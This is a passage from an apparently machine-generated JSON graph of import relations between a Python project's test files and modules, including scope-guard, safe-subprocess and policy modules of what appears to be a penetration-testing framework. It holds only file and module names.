"tests/test_pipeline_engine.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_placeholder_coverage.py", "target": "lazyc2.addon_creator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_loader_safety.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_loader_safety.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_loader_safety.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_loader_safety.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_tiers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_tiers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_tiers.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_tiers.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_plugin_tiers.py", "target": "cli.plugin_tiers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_profiles.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_profiles.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_profiles.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_profiles.py", "target": "core.profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_readline_markers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_readline_markers.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_readline_markers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_readline_markers.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_prompt_refresh.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pwntomate_tools.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pwntomate_tools.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pwntomate_tools.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pwntomate_tools.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_rea_mcp.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_engine_semantic.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_engine_semantic.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_engine_semantic.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_engine_semantic.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_engine_semantic.py", "target": "modules.reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_lateral_data.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_lateral_data.py", "target": "modules.reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reactive_lateral_data.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reasoning_stream.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reasoning_stream.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reasoning_stream.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reasoning_stream.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_reasoning_stream.py", "target": "cli.reasoning_stream"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recommendation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recommendation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recommendation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recommendation.py", "target": "cli.recommendation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recommendation.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_recon_plan.py", "target": "cli.recon_plan"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_report_banners_endpoints.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_report_banners_endpoints.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_report_banners_endpoints.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_report_banners_endpoints.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_require_guards.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_require_guards.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_require_guards.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_resource_script.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_resource_script.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_resource_script.py", "target": "modules.resource_script"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "rich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_console.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_safety_gates.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_scope_guard_integration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_mentions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "lazyc2.blueprints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_codeql_batch.py", "target": "skills.claude_md_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", 